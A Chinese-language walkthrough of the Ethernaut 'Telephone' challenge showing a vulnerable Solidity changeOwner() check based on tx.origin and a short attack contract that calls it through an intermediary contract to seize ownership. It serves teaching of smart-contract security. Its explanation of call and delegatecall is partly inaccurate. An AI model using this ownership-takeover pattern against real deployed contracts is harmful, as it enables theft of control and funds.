

# Telephone
## Reference
[Telephone](https://ethernaut.openzeppelin.com/level/4)

[Sol](https://github.com/yuhuajing/ethernaut-book/blob/main/src/04-Telephone/Telephone.sol)

## 目标
1. 成为合约Owner

## 分析
### changeOwner()
```solidity
    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
```
1. 函数`changeOwner()`用于更新owner，需要满足 `tx.origin != msg.sender`
2. 合约互相调用：
   
   1. `Call: call`重新初始化虚拟机，将A的全部数据状态打包发送到B，更新的是B的数据参数，同时交易的发送方更新为A
   2. 
   3. `DelegateCall: delegateCall`将B的逻辑代码整个拷贝到A，按照B的逻辑更新A的参数
   4. `DeelegateCall`不会初始化新的虚拟机，仍然在当前交易虚拟机中执行合约逻辑
   5. 
3. 如果需要满足 `tx.origin != msg.sender`, 只需要通过合约之间 `call` 的方式更改当前交易的执行环境
```solidity
contract AtTelephone {
    function attack(Telephone telephone, address _owner) public {
        telephone.changeOwner(_owner);
    }
}
```

## 实现步骤
1. 部署`Telephone`合约, 部署攻击合约 `AtTelephone`
2. 调用攻击合约的 `attack()`函数：
   `EOA --> AtTelephone ----> attack()`函数
   `AtTelephone --call-- > Telephone ----> changeOwner()` 函数
3. 对于攻击合约 `AtTelephone`，`msg.sender == EPA`
4. 对于目标合约 `Telephone`，`msg.sender == AtTelephone`
5. 对于两个合约： `tx.origin == EOA`
6. 满足目标合约的判断条件 `tx.origin != msg.sender`，更新目标合约 `Owner = EOA` 值
